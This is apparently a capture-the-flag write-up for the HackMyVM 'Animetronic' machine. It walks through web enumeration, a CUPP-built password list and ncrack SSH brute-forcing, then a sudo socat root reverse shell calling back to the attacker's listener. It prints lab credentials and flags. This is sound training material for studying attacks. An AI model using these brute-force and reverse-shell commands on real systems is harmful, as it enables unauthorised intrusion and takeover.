

## 🖥️ Machine Information

<div class="hmv-info-card">
  <div class="hmv-card-header">
    <div class="htb-header-left">
      
      <div>
        <h3 class="hmv-machine-title">Animetronic</h3>
        <span style="font-size: 0.85rem; color: var(--text-secondary);">Linux</span>
      </div>
    </div>
    <span class="hmv-diff-badge easy">EASY</span>
  </div>

  <div class="hmv-meta-row" style="grid-template-columns: repeat(4, 1fr);">
    <div class="hmv-meta-col">
      <span class="hmv-meta-label">Platform</span>
      <span class="hmv-meta-val orange">HackMyVM</span>
    </div>
    <div class="hmv-meta-col">
      <span class="hmv-meta-label">OS</span>
      <span class="hmv-meta-val">🐧 Linux</span>
    </div>
    <div class="hmv-meta-col">
      <span class="hmv-meta-label">Difficulty</span>
      <span class="hmv-meta-val">Easy</span>
    </div>
    <div class="hmv-meta-col">
      <span class="hmv-meta-label">IP Address</span>
      <span class="hmv-meta-val" style="font-family: monospace; font-size: 0.95rem;">192.168.56.119</span>
    </div>
  </div>
</div>

---

## 🧠 Attack Path Overview



> [!NOTE]
> This writeup details the complete attack path for the **Animetronic** machine on the **HackMyVM** platform.

---

## 🔍 Phase 1: Reconnaissance & Enumeration

### 1. Directory Scanning
We begin by scanning the web service on port 80 using `feroxbuster` with a standard directory wordlist:

```bash
feroxbuster -u http://192.168.56.119 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

```text
301      GET        9l       28w      314c http://192.168.56.119/img => http://192.168.56.119/img/
301      GET        9l       28w      314c http://192.168.56.119/css => http://192.168.56.119/css/
301      GET        9l       28w      313c http://192.168.56.119/js => http://192.168.56.119/js/
301      GET        9l       28w      321c http://192.168.56.119/staffpages => http://192.168.56.119/staffpages/
200      GET      728l     3824w   287818c http://192.168.56.119/staffpages/new_employees
```

We discover the directory `/staffpages/new_employees` which contains JPEG image data.

### 2. Steganography Analysis
We download the JPEG image to our local machine and inspect its metadata and comments:

```text
page for you michael : ya/HnXNzyZDGg8ed4oC+yZ9vybnigL7Jr8SxyZTJpcmQx53Xnwo=
```

Decoding this Base64 string and flipping it yields:
```text
leahcim_rof_egassem (Flipped: message_for_michael)
```

This points us to a new directory path: `/staffpages/message_for_michael`

### 3. Extracting Personal Information
We access the discovered path `http://192.168.56.119/staffpages/message_for_michael` and find a message addressed to Michael:

```text
Hi Michael

Sorry for this complicated way of sending messages between us.
This is because I assigned a powerful hacker to try to hack
our server.

By the way, try changing your password because it is easy
to discover, as it is a mixture of your personal information
contained in this file

personal_info.txt
```

We navigate to `http://192.168.56.119/staffpages/personal_info.txt` to gather information about the target user:

```text
name: Michael
age: 27
birth date: 19/10/1996
number of children: 3 "Ahmed - Yasser - Adam"
Hobbies: swimming
```

---

## 🚀 Phase 2: Vulnerability Analysis & Foothold

### 1. Generating Custom Wordlist
Using the social engineering details extracted from `personal_info.txt`, we generate a targeted password dictionary using `CUPP` (Common User Passwords Profiler):

```bash
cupp -i
```

We input the profile information:
* **First Name**: Michael
* **Birthdate (DDMMYYYY)**: 19101996
* **Children's Names**: Ahmed, Yasser, Adam
* **Keywords**: Ahmed, Yasser, Adam, swimming
* **Leet Mode**: Yes
* **Add special characters / numbers**: Yes

CUPP generates a targeted dictionary containing 12,460 words saved to `michael.txt`.

### 2. SSH Brute-Forcing & Initial Access
We use `Ncrack` to run a brute-force attack against the SSH service using the compiled wordlist:

```bash
ncrack -T5 -v -u michael -P michael.txt ssh://192.168.56.119
```

```text
Discovered credentials on ssh://192.168.56.119:22 'michael' 'leahcim1996'
```

We obtain valid SSH credentials: `michael` : `leahcim1996`

We connect via SSH and log in successfully:
```bash
ssh michael@192.168.56.119
```

---

## ⚡ Phase 3: Lateral Movement & Privilege Escalation

### 1. User Flag & Lateral Movement to Henry
We list the home directories and discover another user `henry`. Inside `/home/henry`, we find `Note.txt`:

```text
if you need my account to do anything on the server,
you will find my password in file named

aGVucnlwYXNzd29yZC50eHQK
```

Decoding the Base64 string:
```text
henrypassword.txt
```

We search the filesystem for this password file:
```bash
find / -type f -name henrypassword.txt 2>/dev/null
```
Output: `/home/henry/.new_folder/dir289/dir26/dir10/henrypassword.txt`

We read the file contents:
```bash
cat /home/henry/.new_folder/dir289/dir26/dir10/henrypassword.txt
```
Output: `IHateWilliam`

We switch to the user account `henry` with the password `IHateWilliam`:
```bash
su - henry
```

We retrieve the user flag:
```bash
cat user.txt
```
Output: `0833990328464efff1de6cd93067cfb7`

### 2. Local Privilege Escalation
We check `henry`'s sudo permissions:

```bash
sudo -l
```

Output:
```text
Matching Defaults entries for henry on animetronic:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User henry may run the following commands on animetronic:
    (root) NOPASSWD: /usr/bin/socat
```

We can run `/usr/bin/socat` as root without a password. We exploit this to spawn a root reverse shell back to our listener on port 9999:

On our local machine, we start a listener:
```bash
nc -lnvp 9999
```

On the target machine, we execute the `socat` exploit:
```bash
sudo /usr/bin/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.56.102:9999
```

On our listener, we successfully receive a root shell connection:
```text
Connection received on 192.168.56.119
id
uid=0(root) gid=0(root) groups=0(root)
```

We retrieve the root flag:
```bash
cat /root/root.txt
```
Output: `153a1b940365f46ebed28d74f142530f280a2c0a`
